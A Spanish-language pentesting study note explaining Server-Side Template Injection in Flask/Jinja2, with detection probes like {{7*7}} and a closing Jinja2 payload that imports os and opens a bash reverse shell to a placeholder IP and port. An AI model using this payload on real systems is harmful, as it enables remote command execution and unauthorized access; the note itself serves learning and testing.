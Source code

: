-----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es un **SSTI** ?

Un **Server-Side Template Injection** ( **SSTI** ) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor. 

Las **plantillas** de servidor son archivos que contienen código que se utiliza para generar *contenido dinámico* en una aplicación web. Los atacantes puede aprovechar una vulerabilidad **SSTI** para inyectar código malicioso en una platinllar de servidor, lo que les pertmite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la apliación web como a posibles datos sensibles. 

----

# Explotación 

Cuando solemos ver que un campo que ingresamos, sea de formulario o url, es representado en el output de la página web y sabemos que por detras corre un framework o plantilla como **Django**, **Flask**, **Ruby on Rails**, entre otros, podemos empezar a pensar en un **SSTI**, pudiendo sacar posibles comandos a inyectar de páginas como [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

De esta manera, supongamos que tenemos decubrimos con **whatweb** o **wapalyzer** que nuestra aplicación corre Flask, ingresamos a la app y vemos que tenemos un campo:

![[SSTI_Example.png]]

El cual vemos que se representa en el output: 

![[SSTI_Example2.png]]

Podemos empezar a probar cosas, en este caso probando inputs como `{{7*7}}`, `{{config.items()}}`, entre otros.  (Todos obtenidos de la sección de [python](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)), en caso de que veamos un output esperado ante estos payloads, podriamos verificar si se logran ejecutar comandos del sistema con el payload para realizarlo, y en caso de que si, solo quedaria ganar acceso con algun metodo dentro de las [[Shells]]. 

Ejemplo: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/{ip}/{port} 0>&1"').read() }}`
